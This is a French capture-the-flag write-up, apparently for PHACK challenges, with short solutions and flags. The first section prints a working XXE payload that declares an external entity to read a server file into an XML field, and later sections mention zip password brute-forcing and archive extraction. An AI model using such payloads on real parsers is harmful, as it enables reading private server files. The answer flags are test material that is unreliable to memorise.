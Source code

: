 En fait la vuln n'est pas au niveau de SQLite mais du parser XML...

```
<?xml version="1.0" encoding="utf-8"?>
<!DOCTYPE test [
    <!ENTITY xxe SYSTEM "file:///home/rector/flag.txt">
  ]>

<evaluation>
  <student>
    <firstname>Maxime</firstname>
    <lastname>DUPONT DE L</lastname>
  </student>
  <grade>20</grade>
  <subject>Biologie</subject>
  <teacher>
    <firstname>Emile</firstname>
    <lastname>LOUIS</lastname>
  </teacher>
  <comment>&xxe;</comment>
</evaluation>
```

**PHACK{XmL_3x7Ern4l_3n7i7iEs_fr0m_b4sH}**

## WE-3
On brute force le mdp du zip avec une wordlist.
Le fichier "corrompu" décrit une partie d'échec.
Il suffit alors de jouer la partie sur un site et de trouverl les mouvement manquant.

**PHACK{cb51e1b764c10a01c5983e99f3d8d386}**
## WE-2
On code un petit truc en python pour extraire continuellement les archives. Les dernières on des noms qui donnent le flag.

**PHACK{R3ady_4_a_z1pl1n3_r1d3}**
## WE-1
Il nous manque le hash d'une seule équipe.

```
Le notre
38-4b8af6c974828dd6c60ab544e3c273a8b7c1b4ee773076982ef70ddab62944798c43eb62f1cc25d989d26e02ade2132ee3d18d619b20a5126a94b02d0144152a22e9e303ee4ae22e08f59a5663428146a605b26c3ded23f9f1cca6ef07a2f0f6b5
X-Wish
39-29173e293536d2a099af92f90325eb3a899c520c099176affef69e390acd7552e6d3fe15d7715c5a0ed5ca2e2761396784e5a7f37eb5ee432efa99d5b4921aaa7f6cff7375f116d4fde89712b928bd919100ad050f1f8154f047665d4c8c0aad31
Recu en double, par deux équipes différentes
40-e31f57a97d924f8dc38b840d745f1df88a70517075498ba751f6c59a15766e6b98a86235eaef26d213dcdc5b8f6d627e02158c6e4d31187b25af27f933f13bd2c7c7ebbb434b11962089f56646b8a9d7b33eda50033fc4dacbe1170b79277256b6
Un gentil mec de l'équipe me l'a confirmé
24-d542d717d933b3fee5a88837b3c49a62faa4f701204018518c8cede1711f1f1d02462a1baed2e785c8b794fd60b67d346e0a4aa169898a823c9158bbd1a5ca4cc12a28899a0c3eeb0087e69d600f701978dd1951332c3a1201d9457a508ca1d05f

15-d76439aa22a213f152efe19b351b19a78ad4d7eeba72a9a38944269499785a19a629d13655693005de16d9df293477c71c7e8e1e7af006746d4bf753e4b1345023c9aced288c92a00b24e22a901cbc3b4d7567392d8df641b2ed9637444413d359

(Un nouveau)
18-a3fe0dac3ee83db1216e5054a5083ed94892ed89701b6e48f446efe24e2280c6d6515275f55cdd6fe94ac9fde1cba9eb03e4acd35c6d7a8b84cd4a14504aae55f5b8ad64a1cf4b709c74769320e75767b2720761b223b64da460d911e186d7eaf7

```
